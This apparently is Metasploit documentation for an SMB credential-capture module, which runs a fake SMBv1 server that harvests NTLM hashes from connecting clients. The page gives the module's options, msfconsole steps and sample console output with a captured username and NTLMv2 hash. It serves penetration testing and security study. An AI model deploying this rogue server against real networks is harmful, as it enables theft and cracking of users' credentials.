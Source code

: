 This module creates a mock SMBv1 server which accepts credentials before returning `NT_STATUS_LOGON_FAILURE`.

SMBv1 is enabled by default on systems before, and including:

 * Windows XP
 * Windows Server 2008 R2

Microsoft provides an article on how to detect, disable, and enable SMB in various versions
[here](https://support.microsoft.com/en-us/help/2696547/detect-enable-disable-smbv1-smbv2-smbv3-in-windows-and-windows-server)

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/smb```
  3. Do: ```run```

## Options

  **CAINPWFILE**

  A file to store Cain & Abel formatted captured hashes in

  **CHALLENGE**

  An 8 byte server challenge.  Default is `1122334455667788`

  **JOHNPWFILE**

  A file to store John the Ripper formatted hashes in

## Scenarios

### Linux Connection via smbclient

Ubuntu 18.04 with `smbclient 4.7.6-Ubuntu` installed.

Based on [shellvoide.com](https://www.shellvoide.com/hacks/how-to-setup-rogue-fake-smb-server-to-capture-credentials/)

You'll need to set `client use spnego = no` under `[global]` in `smb.conf` to ensure SMBv1 compatibility.

Server:

```
msf5 exploit(multi/handler) > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /tmp/john
johnpwfile => /tmp/john
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.
[*] SMB Captured - 2019-09-25 22:44:04 -0400
NTLMv2 Response Captured from 2.2.2.2:50978 - 2.2.2.2
USER:ubuntu DOMAIN:WORKGROUP OS:Unix LM:Samba
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:a6b70b49c8d42903fbe6231ce53a21ff 
NT_CLIENT_CHALLENGE:01010000000000008aee33441474d501f8f62d51f6995359000000000200120057004f0052004b00470052004f005500500000000000
[*] SMB Capture - Empty hash captured from 2.2.2.2:50978 - 2.2.2.2 captured, ignoring ... 
```
